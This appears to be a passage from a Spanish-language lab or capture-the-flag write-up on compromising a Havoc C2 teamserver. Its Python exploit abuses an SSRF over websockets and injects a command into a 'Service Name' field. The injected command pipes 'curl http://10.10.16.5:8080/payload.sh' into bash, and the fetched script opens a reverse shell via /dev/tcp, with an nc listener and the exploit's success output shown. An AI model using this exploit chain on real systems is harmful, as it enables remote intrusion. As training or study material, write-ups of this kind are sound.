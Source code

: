 ```python
payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame, message)

#SSRF payload (comand injection)
message="[***] Injecting Command ..."
cmd = "curl http://10.10.16.5:8080/payload.sh | bash" #CHANGE ME
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""
payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n \"Amsi/Etw Patch\": \"None\",\n \"Indirect Syscall\": false,\n \"Injection\": {\n \"Alloc\": \"Native/Syscall\",\n \"Execute\": \"Native/Syscall\",\n \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n },\n \"Jitter\": \"0\",\n \"Proxy Loading\": \"None (LdrLoadDll)\",\n \"Service Name\":\"" + injection + "\",\n \"Sleep\": \"2\",\n \"Sleep Jmp Gadget\": \"None\",\n \"Sleep Technique\": \"WaitForSingleObjectEx\",\n \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
"Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame,message)
```
{% endcode %}

Crearemos nuestro archivo `payload.sh` el cual ejecuta una Reverse Shell hacía nuestro equipo. Lo compartiremos a través de un servidor web por el puerto especificado en el exploit.

```bash
❯ cat payload.sh
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.5/444 0>&1'

❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Por otro lado, nos pondremos en escucha por el puerto indicado en la Reverse Shell.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
```

Al ejecutar el `exploit.py` modificado, le indicaremos el `target` el cual será el objetivo https://10.10.11.49 y la dirección y puertos internos del WebSocket que encontramos en la configuración de `HavocC2`.

```bash
❯ python3 SSRF.py --target https://10.10.11.49 -i 127.0.0.1 -p 40056
[***] Trying to register agent ...
[***] Success!
[***] Trying to open socket on the teamserver ...
[***] Success!
[***] Establishing connection to teamserver ...
[***] Success!
[***] Authenticating to teamserver ...
[***] Success!
[***] Creating Listener ...
[***] Success!
[***] Injecting Command ...
[***] Success!
```
